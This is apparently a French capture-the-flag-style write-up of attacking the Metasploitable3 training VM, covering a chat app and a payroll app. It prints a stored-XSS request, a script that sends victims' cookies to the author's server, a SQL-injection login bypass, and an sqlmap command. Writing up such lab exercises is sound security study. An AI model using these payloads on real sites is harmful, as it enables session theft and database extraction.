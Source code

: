 
### Chatbot

Sur le port 80 on trouve un listing Apache. Ce listing n'est sans doute pas vraiment généré dynamiquement, car comme on le verra plus tard, il y a aussi un dossier `uploads` existant qui n'apparaît pas ici.

Parmi les éléments visibles on a le `chat`, `drupal`, `phpmyadmin`, `payroll`, etc.

Je passe rapidement sur le chat, car il a crashé et repose sur trop de guessing.

Wapiti a tout de même détecté qu'il y avait un stored XSS.

```
---
Stored Cross Site Scripting in http://192.168.1.8/chat/read_log.php?_=1749124338384 via injection in the parameter text
Evil request:
    POST /chat/post.php HTTP/1.1
    host: 192.168.1.8
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.1.8/chat/index.php
    cookie: name=devloop; PHPSESSID=d43744d324d2b9b8f8ae8d60d9a61c79
    content-length: 59
    Content-Type: application/x-www-form-urlencoded

    text=%3CScRiPt%3Ealert%28%27wczzog0kuf%27%29%3C%2FsCrIpT%3E
---
```

J'ai ainsi posté ce code JS dans le chat pour essayer d'obtenir le cookie du chatbot :

```js
<script>var img = document.createElement("img"); img.src = "http://192.168.1.43:8000/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Mais à ce stade le chatbox avait dû crasher, il ne répondait plus. Je ne recevais que mon propre cookie sur mon serveur.

Une solution est présente sur Youtube : [Exploit the Chat Bot on Metasploitable3](https://www.youtube.com/watch?v=ZS0-sKd6Vcc)

### Payroll App

On tombe face à face avec une mire de connexion. Si on joue un peu avec (les classiques injections `" or "1"="1`) on se rend compte que l'on peut bypasser le login.

La zone authentifiée n'a toutefois aucune valeur. On va donc extraire les données avec sqlmap :

```bash
sqlmap -u http://192.168.1.8/payroll_app.php --data "user=toto&password=toto&s=OK"
```
